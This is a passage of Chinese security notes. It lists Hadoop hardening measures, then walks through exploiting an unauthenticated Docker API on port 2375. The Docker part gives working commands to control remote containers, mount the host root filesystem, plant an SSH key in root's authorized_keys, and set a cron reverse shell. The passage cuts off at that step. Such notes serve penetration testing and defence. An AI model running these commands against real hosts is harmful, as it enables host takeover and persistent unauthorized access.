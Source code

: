 ### 安全措施
- 如无必要, 关闭`Hadoop Web`管理页面
- 开启身份验证 (Kerberos)
- 设置"安全组"访问控制策略, 将`Hadoop`默认开放的多个端口对公网全部禁止, 设置相关端口和`WebAPI`接口白名单
- 权限最小化: 用户和服务只拥有完成任务所需的最小权限
- 监控和审计


## Docker未授权访问
- docker默认绑定`2375`端口, 浏览器直接访问该端口, 显示
	- `message: "page not found"`
- 表示漏洞存在, 可以通过访问`/info`页面获取docker信息, 访问`/images/json`获取image列表
- 使用-H参数可以直接远程访问docker, 命令执行获得容器shell
	- `docker -H tcp://10.1.1.200 ps -a`
	- `docker -H tcp://10.1.1.200 start 3dc8`
	- `docker -H tcp://10.1.1.200 attach 3dc8`
- 运行新的容器并将entrypoint设置为/bin/bash或bin/sh, 将docker宿主机的根目录挂载在容器的`/mnt`目录下
```shell
docker -H tcp://10.1.1.200 run -it -v /:/mnt --entrypoint /bin/bash 4c9608fd76ba（镜像id）
# 或 创建busybox容器并挂载
docker -H tcp://10.1.1.200:2375 run -it -v /:/mnt busybox chroot /mnt sh
```
- 写ssh公钥: 生成ssh公钥, 将内容从docker容器写入到挂载路径/绝对路径/文件中, 使用ssh连接
	- 在docker容器中`echo "<pubkey_content>" > /mnt/root/.ssh/authorized_keys`
- 定时反弹shell: 同理, 将反弹shell脚本写入定时任务的挂载路径/绝对路径/文件中, 定时反弹shell
	- 
